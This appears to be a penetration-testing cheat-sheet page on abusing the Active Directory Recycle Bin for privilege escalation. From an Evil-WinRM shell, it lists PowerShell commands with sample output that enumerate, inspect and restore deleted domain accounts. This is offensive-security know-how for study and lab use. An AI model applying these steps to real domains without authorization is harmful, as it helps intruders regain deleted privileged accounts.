 ```yaml
---
title: "AD Recycle Bin"
date: 2024-7-13
tags: ["Domain Controller", "AD Recycle Bin", "Active Directory", "Windows"]
---
```


### Privesc #1: Restore deleted AD account

{{< tab set1 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import AD module

```console
import-module activedirectory
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\test.user\Documents> import-module activedirectory
```

#### 2. Query all deleted objects within domain

```console
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\test.user\Documents> Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects

Deleted           : True
DistinguishedName : CN=Another User\0ADEL:ebe15df5-e265-45ec-b7fc-359877217138,CN=Deleted Objects,DC=example,DC=com
Name              : Another User
                    DEL:ebe15df5-e265-45ec-b7fc-359877217138
ObjectClass       : user
ObjectGUID        : ebe15df5-e265-45ec-b7fc-359877217138
```

#### 3. Get all details for the deleted account

```console
Get-ADObject -filter { SAMAccountName -eq '<DELETED_USER>' } -includeDeletedObjects -property *
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\test.user\Documents> Get-ADObject -filter { SAMAccountName -eq 'another.user' }
-includeDeletedObjects -property *


accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : example.com/Deleted Objects/Another User
                                  DEL:ebe15df5-e265-45ec-b7fc-359877217138
CN                              : Another User
                                  DEL:ebe15df5-e265-45ec-b7fc-359877217138
---[SNIP]---
```

#### 4. Restore the deleted account

```console
# Rename the target account to avoid user exists error
Restore-ADObject -Identity <OBJECT_GUID> -NewName '<DELETED_USER>.2' -TargetPath 'CN=Users,DC=<EXAMPLE>,DC=<COM>'
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\test.user\Documents> Restore-ADObject -Identity ebe15df5-e265-45ec-b7fc-359877217138 -NewName 'Another User2' -TargetPath 'CN=Users,DC=EXAMPLE,DC=COM'
```

{{< /tabcontent >}}
